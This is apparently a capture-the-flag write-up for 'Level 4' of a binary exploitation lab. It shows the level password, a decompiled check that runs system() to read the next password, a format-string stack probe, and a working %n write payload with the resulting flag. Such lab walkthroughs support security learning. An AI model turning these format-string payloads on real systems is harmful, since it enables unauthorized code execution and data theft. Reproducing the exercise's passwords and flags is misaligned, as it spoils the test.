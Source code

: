 # Level 4
*pass: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*

```
$ scp -P 4242 level4@192.168.56.108:level4 .
```

```
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
```

`0x1025544` = 16930116
`m` address = 0x08049810

```
$ python -c 'print "\x10\x98\x04\x08 %p %p %p %p %p %p %p %p %p %p %p %p"' | ./level4
DU 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x1025544
```

address at parameters 12th.

```
$ python -c 'print "\x10\x98\x04\x08%16930112u%12$n"' > /tmp/level4
$ cat /tmp/level4 - | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```


